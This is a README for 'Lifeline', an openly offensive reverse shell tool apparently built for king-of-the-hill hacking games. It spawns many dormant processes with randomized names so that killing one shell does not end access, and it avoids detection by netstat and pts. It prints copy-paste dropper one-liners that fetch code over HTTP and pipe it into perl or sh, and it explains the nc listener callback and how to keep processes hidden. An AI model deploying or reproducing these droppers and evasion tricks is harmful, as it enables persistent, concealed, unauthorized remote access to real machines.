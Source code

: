 # Lifeline

Lifeline is a reverse shell that's designed to be hard to detect and hard to kill. It does this by spawning many dormant processes with randomized names that can take over when a shell is killed.

tl;dr:
![](.github/meme.png)

It is like the cockroach of reverse shells; Not particularly nice to look at, but it will survive almost anything.


## Features
### Pros
 * Easily spawn many reverse shells as background processes
 * Only one process will connect back to your listener, leaving all other processes undetected by `netstat`
 * The default reverse shell does not use a `pts`, making it harder to detect.
### Cons
 * The reverse shell is extremely bare bones and not super user-friendly.
 * The reverse shell is compiled, making it harder to deploy if your target has a different architecture.


## Depenencies
* GCC
* make
* python3 (used as a basic webserver)

## Usage (basic)
To compile and serve a lifeline binary, use the following command:
```
make serve HOST=x.x.x.x
```
This command will build the binary, create dropper scripts and hosts them using `python3`'s webserver.

```
[~/git/lifeline]~$ make serve HOST=10.0.0.12
=========================================================
  Hosting dropper on http://10.0.0.12:8000...        
  Copy/Paste payloads:                                   
                                                         
 In memory:                                              
  curl http://10.0.0.12:8000/dropper.pl | perl       
  wget -O - http://10.0.0.12:8000/dropper.pl | perl  
                                                         
 Temp file:                                              
  curl http://10.0.0.12:8000/dropper.sh | sh         
  wget -O - http://10.0.0.12:8000/dropper.sh | sh    
=========================================================

Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

After which you can open a new terminal with a `nc` listener on port `1337` and wait for the callback.  
From the `nc` listener, you can execute commands directly or drop into an `sh` process using the "!shell" command.

## Usage (advanced)
To compile a lifeline binary, run the make command in the projects root and supply the IP address of your listener as follows:
```
make HOST=x.x.x.x PORT=xxxx NUM=x
```
* `PORT`: Listener port, defaults to `1337`
* `NUM`: Number of processes started by a dropper, defaults to `10`


## Practicalities
* Since the lifeline processes are spawned in quick succession, they will likely have sequential `PID`'s. Spawning a small amount of new shells manually will yield better results than spawning 100 shells at once.
* By spawning a few lifelines without opening a listener, you can keep the processes hidden until your other shells are killed.

## F.A.Q.
### Q; Does this provide an persistance against reboots?
No, I created this program mostly for "KOTH"-like hacking games, where reboots aren't really an issue. 
### Q; Why is the shell so bad?
The default "shell" is actually just a bunch of `popen` calls. You can used "!shell" to drop into a normal reverse shell which you can stabilize with python or pwncat.  

The rationale behind this is that I want to keep control over the process to facilitate reconnecting, which is not possible once you set up a normal reverse shell with `execve`.